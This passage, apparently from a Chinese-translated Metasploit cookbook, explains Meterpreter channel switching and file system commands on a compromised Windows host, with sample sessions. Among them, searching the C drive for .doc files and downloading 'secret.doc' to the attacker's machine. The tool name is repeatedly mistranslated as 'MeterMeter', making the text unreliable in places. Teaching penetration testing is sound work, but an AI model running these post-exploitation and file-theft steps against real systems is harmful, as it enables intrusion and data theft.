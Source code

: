 此外，如果我们想与任何通道进行交互，我们可以使用后跟通道 ID 的 `interact`命令：

```
meterpreter > interact 2
Interacting with channel 2...
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\DARKLORD\Desktop> 
```

正如您所看到的，我们的通道 2 是一个命令提示符通道，因此通过使用 `interact`命令，我们直接进入命令提示符模式，从那里我们可以执行系统命令。我们可以使用 `interact`命令轻松地在通道之间切换。为了结束一个通道，我们可以使用后跟通道 ID 的 `close`命令。

此配方演示了使用多个通道的能力。它还显示了同时管理它们和在不同渠道之间切换是多么容易。当我们在目标机器上运行多个服务时，通道的使用变得非常重要。

在下一个配方中，我们将重点研究使用 MeterMeter 的目标机器的文件系统。

## 它是如何工作的。。。

Metasploit 使用单独的通道 ID 标记每条消息，这有助于识别执行特定命令的通道上下文。如前所述，MeterMeter 中的通信过程遵循 TLV 协议，该协议提供了使用特定通道 ID 标记不同消息的灵活性，以提供多通道通信支持。

# MeterMeter 文件系统命令

在这个配方中，我们将继续使用文件系统命令。这些命令有助于探索目标系统以执行各种任务，例如搜索文件、下载文件和更改目录。您将注意到使用 MeterMeter 控制目标机器是多么容易。因此，让我们开始使用一些有用的文件系统命令。

## 怎么做。。。

我们将从简单的 `pwd`命令开始，该命令列出目标机器上当前的工作目录。同样，我们可以使用 `cd`命令将工作目录更改为首选位置：

```
meterpreter > pwd
C:\Users\DARKLORD\Desktop
meterpreter > cd c:\
meterpreter > pwd
c:\ 
```

如您所见，我们首先使用 `pwd`命令列出了我们的工作目录，然后使用 `cd`命令将我们的工作目录更改为 `c:`。我们还可以使用 `ls`命令列出当前目录中的可用文件。

现在我们可以使用目录了，我们的下一个任务将是搜索驱动器上的文件。浏览每个目录和子目录以查找文件将非常繁琐。我们可以使用 `search`命令快速搜索特定的文件类型。考虑下面的例子：

```
meterpreter > search -f *.doc -d c:\ 
```

此命令将搜索 `C`驱动器中以 `.doc`为文件扩展名的所有文件。 `f`参数用于指定要搜索的文件模式， `d`参数告诉目录要搜索的文件。

因此，一旦我们搜索了特定的文件，接下来我们可以做的就是在目标机器上本地下载该文件。让我们首先尝试将文件下载到攻击系统：

```
meterpreter > download d:\secret.doc /root
[*] downloading: d:secret.doc -> /root/d:secret.doc
[*] downloaded : d:secret.doc -> /root/d:secret.doc 
```
